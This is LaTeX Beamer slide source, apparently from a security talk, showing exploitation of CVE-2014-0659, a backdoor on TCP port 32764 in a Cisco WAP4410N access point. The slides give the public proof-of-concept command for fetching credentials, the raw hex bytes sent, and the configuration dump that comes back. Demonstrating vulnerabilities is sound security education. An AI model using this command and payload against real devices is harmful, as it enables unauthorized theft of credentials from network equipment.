 \documentclass{beamer}
\begin{document}
\begin{frame}
	\frametitle{CVE-2014-0659 - cont'd}	
	based on the work of \href{https://github.com/elvanderb/TCP-32764}{Eloi Vanderbken},
	\begin{itemize}
		\item with hard coded some value to fit my context 
		\item using the example given in the repo, python poc.py --get_credentials --ip 192.168.1.3
	\end{itemize}
	\begin{itemize}
		\item we send 53 63 4d 4d 00 00 00 01 00 00 00 01 00
		\item we receive all the credentials	
	\end{itemize}
\end{frame}
\begin{frame}[fragile]
	\frametitle{CVE-2014-0659 - cont'd}	
	\begin{lstlisting}[basicstyle=\small\ttfamily,columns=flexible,breaklines=true]
sys_name=wap86eb04sys_desc=WAP4410Nsys_domain=276sys_domain_suffix=sys_lang=ensecret_mask=0eth_data_rate=autolan_force100m=0lan_dhcpc=1lan_ipaddr=192.168.1.3lan_netmask=255.255.255.0lan_gateway=192.168.1.1lan_dns1=192.168.1.1lan_dns2=0.0.0.0lan_ipv6=0lan_dhcp6c=0lan_radvd=1lan_ipaddrv6=lan_gatewayv6=lan_dnsv61=lan_dnsv62=lan_dhcps=0lan_dhcps_start=lan_dhcps_end=wins_server=tod_enable=0tod_mon=1tod_day=1tod_year=2008tod_hour=0tod_min=0tod_sec=0ntp_mode=0ntp_server=timezone_diff=005-08:00timezone_daylightsaving=0ftp_server=ftp_path=ftp_login_name=ftp_password=vlan_mode=0vlan_list=1,vlan_management=1vlan_default=1vlan_default_tag=0vlan_wds_tag=0wds_vlan_list=eth_supp_mode=0eth_supp_mac=1eth_supp_user=eth_supp_pwd=autohttps=0http_mode=1http_port=80https_mode=0https_port=443wlan_manage=1SSH=0telnet_mode=0telnet_timeout=300rogue_mode=0rogue_interval=3rogue_type=0
	\end{lstlisting}	
\end{frame}
\end{document}
